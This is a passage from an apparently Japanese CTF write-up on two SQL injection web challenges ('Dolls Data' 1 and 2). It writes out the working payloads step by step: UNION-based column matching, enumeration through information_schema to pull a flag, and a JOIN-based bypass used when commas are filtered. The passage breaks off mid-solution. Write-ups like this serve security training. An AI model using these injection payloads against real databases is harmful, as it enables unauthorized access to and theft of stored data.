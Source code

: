 検索フォームといえば SQLi です。`' or 1;#` を検索してみると全てのレコードが表示され、`' and 0;#` だと `該当するデータが存在しません` と表示されました。

`' union select 1,2,3,4,5,6,7,8,9,10,11;#` を入力してみると、以下のようなテーブルが表示されました。

|ID|レア度|種別|戦術人形名|
|--|---|--|-----|
|1|2|3|4|

これを利用して存在しているテーブルの一覧を手に入れましょう。`' union select version(),2,3,4,5,6,7,8,9,10,11;#` を入力すると `8.0.18` と表示されることから MySQL が使われていると推測できます。`' union select 1,2,3,table_name,5,6,7,8,9,10,11 from information_schema.tables;#` を入力すると、以下のようなテーブルが表示されました。

|ID|レア度|種別|戦術人形名|
|--|---|--|-----|
|1|2|3|dolls|
|1|2|3|dolls_data_1_flag_b3f4befc|
|︙|︙|︙|︙|

`dolls_data_1_flag_b3f4befc` のカラム名を取得します。`' union select 1,2,3,column_name,5,6,7,8,9,10,11 from information_schema.columns where table_name = 'dolls_data_1_flag_b3f4befc';#` を入力すると、以下のようなテーブルが表示されました。

|ID|レア度|種別|戦術人形名|
|--|---|--|-----|
|1|2|3|kar98k|

`' union select 1,2,3,kar98k,5,6,7,8,9,10,11 from dolls_data_1_flag_b3f4befc;#` を入力すると、以下のようなテーブルが表示されました。

|ID|レア度|種別|戦術人形名|
|--|---|--|-----|
|1|2|3|WebC{D0lls_front1ine_i5_v3ry_nic3_g4me!_Y0u_mu5t_p1ay_i7_n0w!_d10e093d}|

フラグが得られました。

```
WebC{D0lls_front1ine_i5_v3ry_nic3_g4me!_Y0u_mu5t_p1ay_i7_n0w!_d10e093d}
```

## [Web 500] Dolls Data 2
> さっきのシステムには脆弱性があったので、修正しました！
使わなきゃいけない記号があるので、それは使えるようにしています！
> 
> (URL)

脆弱性が修正されたとのことですが、`' or 1;#` と `' and 0;#` の挙動を見ると相変わらず SQLi ができるようです。ところが、 `' union select 1,2,3,4,5,6,7,8,9,10,11;#` を入力しても `処理中にエラーが発生しました` と表示されます。入力フォームをよく見ると `,` が消されてしまっているようです。DevTools の Network タブを見るとちゃんと `' union select 1,2,3,4,5,6,7,8,9,10,11;#` が送信されていることが確認でき、クライアント側で処理されているわけではないことがわかります。

`,` が消された状態での SQLi と聞いて思い出すのは [SECCON 2019 Online CTF の web_search](2019-10-20-seccon-online-ctf.html#web_search-web-212) です。これと同じ手法を用いて `' union select * from (select 1) a join (select 2) b join (select 3) c join (select 4) d join (select 5) e join (select 6) f join (select 7) g join (select 8) h join (select 9) i join (select 10) j join (select 11) k;#` を入力してみると、以下のようなテーブルが表示されました。
